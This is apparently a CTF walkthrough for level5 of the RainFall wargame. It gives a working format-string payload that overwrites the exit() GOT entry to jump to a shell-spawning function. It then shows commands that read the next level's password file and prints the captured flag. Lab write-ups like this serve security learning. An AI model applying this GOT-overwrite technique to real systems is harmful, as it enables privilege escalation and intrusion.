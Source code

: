 # Walkthrough

## Solution

```
(python -c 'print ("\x38\x98\x04\x08" + "%134513824c" + "%4$n")'; cat -) | ./level5
pwd
/home/user/level5
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Explanation

### Execution

```
level5@RainFall:~$ ./level5 
hello
hello
```
-> The program waits for an input, and then echo that output.  

### Disassembly

```
info variable
0x08049854  m

info function
0x080484a4  o
0x080484c2  n
0x08048504  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  


### Steps

-> We know there is a function o() that launches a shell through *system@plt*, but it is not called.  

The procedure linkage table (PLT) consists of many jump instructions, each one corresponding to
the address of a function. It works like a springboard—each time a shared function needs to be called, control will pass through the PLT.

```
level5@RainFall:~$ objdump -d -j .plt ./level5 
...
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    *0x8049838
 80483d6:	68 28 00 00 00       	push   $0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>
...
```  

One of these jump instructions is associated with the exit() function, which is called at the end of the program.  
If the jump instruction used for the exit() function can be manipulated to direct the execution flow into shellcode instead of the exit() function, a root shell will be spawned.  

But the plt table is *read-only*.  
The jump instruction reveals that it isn't jumping to an address but to a pointer to address.  
For example, the actual address of the exit() function’s address is stored at 0x8049838.  
These addresses exist in another section, called the **global offset table** (GOT), which is writable.

```
level5@RainFall:~$ objdump -R ./level5 

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```  

This reveals that the address of the exit() function is located in the GOT at 0x08049838.  
If the address of the shellcode is over-written at this location, the program should call
the shellcode when it thinks it’s calling the exit() function.  

We can use the printf format string vulnerability to write the function o's address instead
of the exit function address when it is called in function n().  

- Let's find in which position does the m variable address starts.  

```
level5@RainFall:~$ ./level5 
AAAA %x %x %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```
-> It is on the 4th position.

```
-> exit:	0x08049838
-> o: 		0x080484a4 == 134513828 in decimal - 4bytes (for the exit address)
```
We have to print enough characters to reach the number that is the address of o.  

- Let's overwrite exit by o:  
```
(python -c 'print ("\x38\x98\x04\x08" + "%134513824c" + "%4$n")'; cat -) | ./level5
pwd
/home/user/level5
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
